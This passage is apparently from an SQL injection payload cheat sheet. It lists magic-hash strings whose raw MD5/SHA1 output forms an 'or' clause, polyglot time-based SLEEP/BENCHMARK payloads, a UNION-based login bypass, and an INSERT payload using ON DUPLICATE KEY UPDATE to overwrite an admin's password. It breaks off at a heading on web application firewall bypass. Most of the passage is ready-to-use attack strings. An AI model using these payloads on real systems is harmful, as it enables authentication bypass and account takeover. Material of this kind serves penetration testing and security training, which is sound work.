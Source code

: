 ```php
md5("ffifdyop", true) = 'or'6�]��!r,��b
sha1("3fDf ", true) = Q�u'='�@�[�t�- o��_-!
```

Challenge demo available at [http://web.jarvisoj.com:32772](http://web.jarvisoj.com:32772)

## Polyglot injection (multicontext)

```sql
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/

/* MySQL only */
IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/
```

## Routed injection

```sql
admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'
```

## Insert Statement - ON DUPLICATE KEY UPDATE

ON DUPLICATE KEY UPDATE keywords is used to tell MySQL what to do when the application tries to insert a row that already exists in the table. We can use this to change the admin password by:

```sql
Inject using payload:
  attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" --

The query would look like this:
INSERT INTO users (email, password) VALUES ("attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" -- ", "bcrypt_hash_of_your_password_input");

This query will insert a row for the user “attacker_dummy@example.com”. It will also insert a row for the user “admin@example.com”.
Because this row already exists, the ON DUPLICATE KEY UPDATE keyword tells MySQL to update the `password` column of the already existing row to "bcrypt_hash_of_qwerty".

After this, we can simply authenticate with “admin@example.com” and the password “qwerty”!
```

## WAF Bypass

### White spaces alternatives

No Space (%20) - bypass using whitespace alternatives

